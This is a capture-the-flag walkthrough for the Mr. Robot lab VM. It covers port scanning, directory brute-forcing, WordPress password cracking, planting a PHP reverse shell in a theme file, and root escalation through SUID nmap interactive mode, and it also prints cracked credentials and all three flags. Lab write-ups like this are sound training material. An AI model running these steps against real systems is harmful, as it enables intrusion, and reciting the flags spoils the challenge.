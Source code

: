 markdown
# Mr. Robot CTF Walkthrough - VulnHub/TryHackMe

## Introduction
The Mr. Robot CTF, inspired by the *Mr. Robot* TV show, is a beginner-to-intermediate Linux-based virtual machine available on [VulnHub](https://www.vulnhub.com/entry/mr-robot-1,151/) and [TryHackMe](https://tryhackme.com/room/mrrobot). The goal is to find three hidden keys (flags) through web enumeration, brute-forcing, and privilege escalation. This write-up documents my approach to solving the challenge.

## Challenge Description
The VM hosts a web server on ports 80 (HTTP) and 443 (HTTPS) with a *Mr. Robot*-themed interface. The challenge provides files like `robots.txt` and `fsocity.dic` to aid in finding the three flags. Tasks involve enumerating a web server, brute-forcing a WordPress login, and escalating privileges to root.

## Solution/Steps

### Key 1: Web Enumeration
1. **Scan the Network**: Identified the target IP using Netdiscover:
   bash
   netdiscover
   
   Target IP: `10.0.2.7` (adjust based on your setup).
2. **Port Scanning**: Used Nmap to find open ports:
   bash
   nmap -T4 -A -p- 10.0.2.7
   
   Result: Ports 80 (HTTP) and 443 (HTTPS) open.
3. **Check robots.txt**: Visited `http://10.10.58.206/robots.txt` and found `key-1-of-3.txt` and `fsocity.dic`. Downloaded the first key:
   bash
   wget http://10.0.2.7/key-1-of-3.txt
   
   **Flag 1**: `073403c8a58a1f80d943455fb30724b9`

### Key 2: WordPress Login
1. **Directory Brute-Forcing**: Used GoBuster to find hidden directories:
   bash
   gobuster dir -u http://10.0.2.7 -w /usr/share/wordlists/dirb/common.txt
   
   Discovered `/wp-login.php`.
2. **Brute-Force WordPress**: Used wpscan with `fsocity.dic` to crack the login
   Credentials: `elliot:ER28-0652`.
3. **Gain Shell Access**: Logged into WordPress, edited `comments.php` to upload a PHP reverse shell. Set up a Netcat listener:
   bash
   nc -nlvp 1234
   
   Navigated to `/home/robot` and found the second key:
   bash
   cat key-2-of-3.txt
   
   **Flag 2**: `822c73956184f694993bede3eb39f959`

### Key 3: Privilege Escalation
1. **Check SUID Binaries**: Found exploitable Nmap binary:
   bash
   find / -perm -u=s 2>/dev/null
   
   Nmap version 2.02–5.21 supports interactive mode.
2. **Exploit Nmap**: Used Nmap to gain root shell:
   bash
   nmap --interactive
   nmap> !sh
   
3. **Retrieve Final Flag**: Navigated to `/root`:
   bash
   cd /root
   cat key-3-of-3.txt
   
   **Flag 3**: `04787ddef27c3dee1ee161b21670b4e4`

## Tools and Techniques
- **Nmap**: Port scanning and privilege escalation.
- **GoBuster**: Directory brute-forcing.
- **wpscan**: WordPress credential brute-forcing.
- **wget**: File downloads.
- **Netcat**: Reverse shell handling.
- **PHP Reverse Shell**: Gained user access.

## Challenges Faced
I initially used a generic wordlist for wpscan, missing `fsocity.dic` in `robots.txt`. The Nmap interactive mode was new to me; researching GTFObins clarified the exploit. Thorough enumeration was key to avoiding dead ends.

## Flags
plaintext
- Key 1: 073403c8a58a1f80d943455fb30724b9
- Key 2: 822c73956184f694993bede3eb39f959
- Key 3: 04787ddef27c3dee1ee161b21670b4e4


## Conclusion
This CTF taught me the importance of enumeration and exploiting SUID binaries. The *Mr. Robot* theme made it engaging, and I improved my skills with Nmap and wpscan.
## References
- [VulnHub: Mr. Robot CTF](https://www.vulnhub.com/entry/mr-robot-1,151/)
- [TryHackMe: Mr. Robot CTF](https://tryhackme.com/room/mrrobot)
- [GTFObins: Nmap](https://gtfobins.github.io/gtfobins/nmap/)
- [SecLists Wordlists](https://github.com/danielmiessler/SecLists)
- [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)
  
